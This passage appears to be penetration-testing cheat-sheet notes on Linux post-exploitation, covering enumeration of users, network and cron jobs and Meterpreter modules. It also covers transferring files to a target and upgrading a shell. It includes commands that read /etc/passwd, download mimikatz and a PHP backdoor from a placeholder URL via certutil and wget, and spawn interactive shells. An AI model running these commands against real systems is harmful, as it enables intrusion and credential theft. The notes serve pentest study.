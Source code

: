In meterpreter session : ```getuid```, 

In shell : ```whoami```, ```groups username```, ```cat /etc/passwd```, ```groups```, ```w``` , ```who``` , ```last```, ```lastlog```

## Linux : Enumerating network infromation

Information to gather:
+ Current IP address & network adapter
+ Internal networks
+ TCP/UDP services running and their respective ports
+ Other hosts on the network

In meterpreter : ```ifconfig``` , ```netstat```, ```route```, ```apr```

In shell : ```ip a s``` , ```cat /etc/network``` , ```cat /etc/hostname```, ```cat /etc/hosts```, ```cat /etc/resolv.conf```, ```arp -a```

## Linux : Enumerating processes and cronjobs

Information to gather:
+ Running services
+ Cron Jobs

In meterpreter : ```ps``` , ```pgrep service_name``` 

In shell : ```ps``` , ```ps aux``` , ```top``` , ```crontab -l```  , ```ls -al /etc/cron*``` , ```cat /etc/cron*```


LinEnum - LinEnum is a simple bash script that automates common Linux 
local enumeration checks in addition to identifying privilege escalation 
vulnerabilities.


post/linux/gather/enum_configs : Enumerate configurations
post/linux/gather/enum_network : Enumerate network information
post/linux/gather/enum_system : Enumerate system information

GitHub Repo: https://github.com/rebootuser/LinEnum

-- -

## Transfer Files to target system

Using meterpreter session : Upload command

Setup webserver using python:
- python 2 : python -m SimpleHTTPServer 80
- python 3 : python3 -m http.server 80

To dowload file on windows:
```certutil -urlcache -f http://URL/mimikatz.exe mimikatz.exe```

To download file on linux:
```wget http://URL/php-backdoor.php```


-- -

## Upgrading non interactive shell

cat /etc/shells to get list of installed shell
If python is installed ```python -c 'import pty;pty.spawn("/bin/bash")'```
If perl is installed ```perl -e 'exec "/bin/bash";```
If ruby is installed ```ruby: exec "/bin/bash"```

export TERM=xterm
export SHELL=bash
```